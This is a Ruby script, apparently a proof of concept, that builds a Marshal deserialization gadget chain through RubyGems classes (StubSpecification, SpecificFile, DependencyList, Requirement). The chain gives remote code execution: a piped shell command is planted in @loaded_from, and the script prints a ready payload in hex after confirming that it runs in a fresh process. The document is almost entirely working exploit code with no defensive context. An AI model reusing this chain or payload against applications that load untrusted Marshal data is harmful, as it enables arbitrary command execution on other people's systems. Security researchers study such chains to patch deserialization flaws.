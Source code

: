 ```ruby
class Gem::StubSpecification
def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1>&2")#RCE cmd must start with "|" and end with "1>&2"

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
def marshal_dump
[$dependency_list]
end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
pipe.print payload
pipe.close_write
puts pipe.gets
puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
```